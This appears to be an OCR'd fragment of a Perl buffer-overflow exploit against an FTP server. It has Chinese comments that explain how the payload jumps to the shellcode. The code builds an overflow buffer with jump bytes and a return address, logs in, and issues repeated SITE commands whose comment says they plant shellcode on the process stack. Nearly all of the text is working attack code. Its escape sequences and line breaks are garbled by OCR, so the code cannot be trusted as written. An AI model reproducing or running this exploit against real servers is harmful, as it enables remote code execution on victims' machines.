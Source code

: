 $c = $myfindsc . "A" x (104 - length($myfindsc)) .
    $patch . $patch. "xEBx8Ex44x44"."A" x 48 .
#                     |<-- 第二次跳转: 到这里后最终跳到$myfindsc
    $patch . "AAAA". $retaddr . $patch . "A" x 16 ."xE2xAA"."NN";
#                                                  |<-- 第一次跳转: 函数返回以后经过跳转来到这里, 但是$myfindsc太远, 就又跳了一次

$x = <$sock>;
print $x;
print $sock "USER anonimoos
";
$x = <$sock>;
print $x;
print $sock "PASS $shell
";
$x = <$sock>;
print $x;
print $sock "USER anonimoos
";
$x = <$sock>;
print $x;
print $sock "PASS $shell
";
$x = <$sock>;
print $x;

print $sock "USER anonymous
";
$x = <$sock>;
print $x;
print $sock "PASS anonymous
";
$x = <$sock>;
print $x;
print $sock "MKD w00t$port
";
$x = <$sock>;
print $x;
print $sock "SITE $v
"; # We store shellcode in memory of process (stack)
$x = <$sock>;
print $x;
print $sock "SITE $v
";
$x = <$sock>;
print $x;
print $sock "SITE $v
";
$x = <$sock>;
print $x;
print $sock "SITE $v
";
$x = <$sock>;
print $x;
print $sock "SITE $v
";
$x = <$sock>;
print $x;
print $sock "CWD w00t$port
";
$x = <$sock>;
